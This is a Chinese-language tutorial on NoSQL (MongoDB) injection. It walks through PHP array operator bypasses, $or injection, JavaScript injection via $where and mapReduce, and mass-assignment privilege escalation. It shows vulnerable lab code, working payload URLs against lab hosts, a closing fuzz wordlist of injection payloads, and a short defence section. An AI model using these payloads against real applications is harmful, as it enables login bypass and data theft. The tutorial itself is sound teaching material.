




简述 NoSQL 注入

- - -

# 简述 NoSQL 注入

## 简介

​ `NoSQL`数据存储由于其可扩展性和易用性，最近几年变得越来越受欢迎，但是伴随着`NoSQL`数据库的兴起，安全问题也伴随着呈现。新的查询语法将传统的`SQL`注入方法语句将不再适用，本文将讨论几种`NoSQL`注入方式以及其数据库的安全风险。

​ 主要从如下四个方面进行说明

-   `php array injection attack`(php 数据注入攻击)
-   `MongoDB OR injection` (mongo or 注入)
-   `arbitrary JavaScript injection`(任意 js 文件执行)
-   `more`

## 注入姿势

### `PHP ARRAY INJECTIONS`

-   服务器后台架构如下：后台为`php`后台，`php`后台通过`json`格式的数据与`NoSQL`数据库进行数据交互

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323181504-37af41b4-e8fe-1.png)

-   `php`本身是不支持字典格式的，内部通过数组编码为`json`格式，`eg`:

```plain
array('username' => 'weiyi', 'password' => '123456');

# 编码后
// {"username":"weiyi", "password":"123456"}
```

-   可以考虑这么一个场景，开发过程中登录`HTTP`请求大体会长这个样子

```plain
username=weiyi&password=123456
```

-   那么我们`php`后台代码大概的样子为

```plain
db->users->find(array('username' => $_POST['username'], 'password' => $_POST['password']));

# 转换成数据库查询语句
db.users.find({"username":"weiyi", "password":"123456"});
```

-   `php`特定的语法特点是可以允许攻击者传入如下恶意请求

```plain
username[$ne]=1&password[$ne]=1

# 转换成 php 数组
array('username' => array('$ne' => '1'), 'password' => array('$ne' => '1'));

# 转换成 mongo 查询语句
db.users.find({"username":{"$ne":1}, "password":{"$ne":1}});
```

-   这样我们就可以绕过登录限制，达到未授权访问后端

语义为 `username`不等于 1，并且`password`不等于 1 的用户，转换成我们熟悉的`SQL`语句如下

```plain
select * from users where username <> 1 and password <> 1
```

-   靶场`demo`

```plain
# 核心代码
$dbUsername = null;
$dbPassword = null;

$data = array(
    'username' =>  $_REQUEST['username'],
    'password' =>  $_REQUEST['password']

); 
$cursor = $collection->find($data);
$count = $cursor->count();
$doc_failed = new DOMDocument();
$doc_failed->loadHTMLFile("failed.html");
$doc_succeed = new DOMDocument();
$doc_succeed->loadHTMLFile("succeed.html");
```

-   登录界面

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323181541-4da01a34-e8fe-1.png)

-   正常登录界面

`http://10.33.98.80/nosql/login/login.php?username=weiyi&password=5555555&login-submit=login`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323181626-682f92ee-e8fe-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323181630-6a7babaa-e8fe-1.png)

-   绕过姿势

```plain
http://10.33.98.80/nosql/login/login.php?username[$ne]=1&password[$ne]=1&login-submit=login
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323181644-72d8060e-e8fe-1.png)

-   配合条件操作符
    
    -   (>) 大于 - `$gt`
    -   (<) 小于 - `$lt`
    -   (>=) 大于等于 - `$gte`
    -   (<= ) 小于等于 - `$lte`
    
    类似于`SQL bool`注入，我们尝试爆破`username`字段最后一个字符
    

```plain
http://10.33.98.80/nosql/login/login.php?username[$gt]=weiyh&password[$ne]=1&login-submit=login
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323181655-79757456-e8fe-1.png)

```plain
http://10.33.98.80/nosql/login/login.php?username[$gt]=weiyi&password[$ne]=1&login-submit=login
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323181703-7e4c9252-e8fe-1.png)

-   其实不光是`php`有类似的问题，如果是其他语言的后台，比如`python`,同样可以传递字典，进行`nosql`注入

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323181718-8718ddf0-e8fe-1.png)

### `NoSQL OR INJECTION`

​ 大家都知道，`SQL`注入的根本原因是`SQL`语句拼接前端不可信参数，未进行合理的编码导致。`JSON`格式的查询的数据交互方式让参数拼接变得难度倍增，但是并不代表没有可能

-   比如场景下开发的代码可能是这个样子

```plain
string query = "{username: '" + post_username + "', password: '" + post_password + "'}";

db.users.execute(query);
```

-   正常用户的输入会是如下的

```plain
username=weiyi&password=123456
# json
{"username": "weiyi", "password": "123456"}
```

-   如果未对参数进行任何效验，那么攻击者可能构造如下语句，造成绕过登录限制

```plain
username=weiyi', $or:[{}, {'a':'a&password='}]
```

-   拼接后的语句为

```plain
string query = "{username: 'weiyi', $or:[{}, {'a':'a', password: ''}] }";

# mongo 查询语句
{username: 'weiyi', $or:[{}, {'a':'a', password: ''}] }
```

-   `{}`空查询`nosql`语法判断为`true`
-   这里转换成传统的`SQL`语句

```plain
SELECT * FROM users WHERE username = 'weiyi' AND (TRUE OR ('a'='a' AND PASSWORD = ''))
```

-   最终，我们可以实现只要获取到用户名，就可以绕过密码进行登录

### `NoSQL JAVASCRIPT INJECTION`

​ 这部分主要说的是`nosql`数据库的一个任意`javaScript`执行，众多非关系型数据库引擎是支持`js`代码的执行的，比如`MongoDB`,`CouchDB`等等，为的是实现更为复杂的查询操作，比如`map-reduce`操作

​ 比如如下场景：后端`model`层暴露了一个未经过滤的接口，参数`$param`可控。这里举一个最简单的`map-reduce`,统计一些商品的总价，`$param`为商品价格，后端的`PHP`代码可能是这个样子

```plain
// map
$map = "function() {
    for (var i = 0; i < this.items.length; i++) {
        emit(this.name, this.items[i].$param); } }";
// reduce
$reduce = "function(name, sum) { return Array.sum(sum); }";

$opt = "{ out: 'totals' }";
$db->execute("db.stores.mapReduce($map, $reduce, $opt);");
```

-   可能的注入代码如下

```plain
a);}},function(kv) { return 1; }, { out: 'x' });
db.injection.insert({success:1});
return 1;db.stores.mapReduce(function() { { emit(1,1
```

-   这里我们将代码分为三部分进行分析

```plain
# 闭合前部 js 代码
a);}},function(kv) { return 1; }, { out: 'x' });
# 真正的注入语句
db.injection.insert({success:1});
# 闭合后部 js 代码
return 1;db.stores.mapReduce(function() { { emit(1,1
```

-   带入`js`代码

```plain
// map
$map = "function() {
    for (var i = 0; i < this.items.length; i++) {
        emit(this.name, this.items[i].a);}},
        function(kv) { return 1; }, { out: 'x' });
    db.injection.insert({success:1});
    return 1;db.stores.mapReduce(function() { { emit(1,1); } }";
// reduce
$reduce = "function(name, sum) { return Array.sum(sum); }";

$opt = "{ out: 'totals' }";
$db->execute("db.stores.mapReduce($map, $reduce, $opt);");
```

-   最终数据库执行如下

```plain
db.stores.mapReduce(function() {
    # map
    for (var i = 0; i < this.items.length; i++) {
        emit(this.name, this.items[i].a);
    }
 },
    # reduce inject
    function(kv) { return 1; }, 
    # opt inject
    { out: 'x' }
);
db.injection.insert({success:1});
return 1;
db.stores.mapReduce(
    # map inject
    function() { { emit(1,1); } }, 
    # reduce
    function(name, sum) { return Array.sum(sum); },   
    # opt
    { out: 'totals' }                    
);
```

-   靶场`demo1`

后端代码类似如下

```plain
$m = new MongoClient();
$db = $m->test;
$collection = $db->users;
  $query_body ="
        function q() {
            var username = ".$_REQUEST["username"].";
            var password = ".$_REQUEST["password"].";if(username == 'weiyi'&&password == '123456') return true; else{ return false;}}
";  
$result = $collection->find(array('$where'=>$query_body));
$count = $result->count();
$doc_failed = new DOMDocument();
$doc_failed->loadHTMLFile("failed.html");
$doc_succeed = new DOMDocument();
$doc_succeed->loadHTMLFile("succeed.html");
```

其中为了演示方便，账号密码写死为`weiyi / 123456`

-   正常的请求如下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323181850-bdf0b4f6-e8fe-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323181853-c03975ae-e8fe-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323181857-c24daedc-e8fe-1.png)

-   闭合`js`绕过姿势

```plain
password = 2;return true
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323181910-ca343508-e8fe-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323181914-cc865f20-e8fe-1.png)

-   靶场`demo2`

后端代码类似如下

```plain
$m = new MongoClient();
$db = $m->test;
$collection = $db->users;
$tem = $_REQUEST["password"];
$query = "function q(){";
$query.= "var secret_number = 111;";
$query.= "var user_try = $tem;";
$query.="if (secret_number!=user_try) return false;";
$query.="return true;";
$query.= "}";
$result = $collection->find(array('$where'=>$query));
$count = $result->count();
print_r($count);
$doc_failed = new DOMDocument();
$doc_failed->loadHTMLFile("failed.html");
$doc_succeed = new DOMDocument();
$doc_succeed->loadHTMLFile("succeed.html");
```

同理如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323181926-d39f2cf6-e8fe-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323181929-d59f14f8-e8fe-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323181936-d99ba1c0-e8fe-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323181940-dbc283b0-e8fe-1.png)

-   靶场`demo3`

后端代码如下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323182001-e8397ffe-e8fe-1.png)

-   正常请求

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323182007-ec04a8d4-e8fe-1.png)

-   注入姿势
-   拿到集合

```plain
219.153.49.228:41861/new_list.php?id=1'});return ({title:tojson(db.getCollectionNames()),1:'1
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323182014-f05a01fe-e8fe-1.png)

-   查看集合中的数据

```plain
# 第一条
219.153.49.228:41861/new_list.php?id=1'});return ({title:tojson(db.Authority_confidential.find()[0]),1:'1

# 第二条
219.153.49.228:41861/new_list.php?id=1'});return ({title:tojson(db.Authority_confidential.find()[1]),1:'1
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323182023-f597c0b6-e8fe-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323182027-f7ed5812-e8fe-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323182030-fa10f4dc-e8fe-1.png)

## 其它

### CSRF+REST API 绕过防护

​ `NoSQL`数据库另一个特性是暴露`HTTP REST API`接口供用户查询，客户端可能是基于`HTML5`的应用程序，这样查询会更为方便，但是也具有一定的安全风险，特别是配合`CSRF`攻击

​ 如下如所示

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323182038-fed6b268-e8fe-1.png)

### NoSQL 注入污染数据库

​ 开发的伪代码类似如下：

```plain
user_data = POST.data
db.user.update(user_data[id], user_data)
```

​ 说明，场景可能为更新用户信息，前端传递修改的手机号、年龄等，但是后端并未对需要更新的字段进行白名单过滤，此时如果攻击者增加`level`等字段，导致数据库信息修改，权限提升等

```plain
# 正常的请求
{"phonenum":"13344445555", "age":18}

# 攻击者请求
{"phonenum":"13344445555", "age":18, "level":1, "role":"admin"}
```

-   某系统编辑处存在如下问题

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323182048-04a6d89e-e8ff-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323182051-068f2fc6-e8ff-1.png)

-   发送额外字段可导致插入数据库
-   修改数据库`create_time`字段

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323182058-0a591b8a-e8ff-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323182102-0c8e68ec-e8ff-1.png)

-   某系统新增业务处存在如下问题

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323182108-105c309e-e8ff-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323182111-124829e4-e8ff-1.png)

污染数据库

## 防御手段

#### 动态&&静态安全扫描

-   动态代码扫描 Dynamic Application Security Testing (DAST)
-   静态代码分析 (static code analysis)

#### 控制`rest api`接口请求

​ 主要是为了防御`CSRF`攻击

-   只接受`JSON`格式的`content type`
-   `html`表单不局限于只进行`url`编码
-   确保不会出现`JSONP`和`CORS`跨域请求

#### 数据库权限控制

-   对数据库操作进行合理的权限控制
-   不同的用户访问不同的集合
-   不同的用户对不同的集合增删改查权限做细分

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323182119-16e450c2-e8ff-1.png)

#### 编码规范

-   控制更新白名单`key`
-   非必要情况下前端禁止传入字典

## 写在最后

### fuzz 字典

[https://github.com/cr0hn/nosqlinjection\_wordlists/blob/master/mongodb\_nosqli.txt](https://github.com/cr0hn/nosqlinjection_wordlists/blob/master/mongodb_nosqli.txt)

```plain
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
|| 1==1//
|| 1==1%00
}, { password : /.*/ }
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
';sleep(5000);
';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
{"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}
```

## 参考

-   No SQL, No Injection? (详见附件)
-   [https://github.com/cr0hn/nosqlinjection\_wordlists/blob/master/mongodb\_nosqli.txt](https://github.com/cr0hn/nosqlinjection_wordlists/blob/master/mongodb_nosqli.txt)

1506.04082.pdf (0.443 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20240323182220-3b16cdf8-e8ff-1.pdf)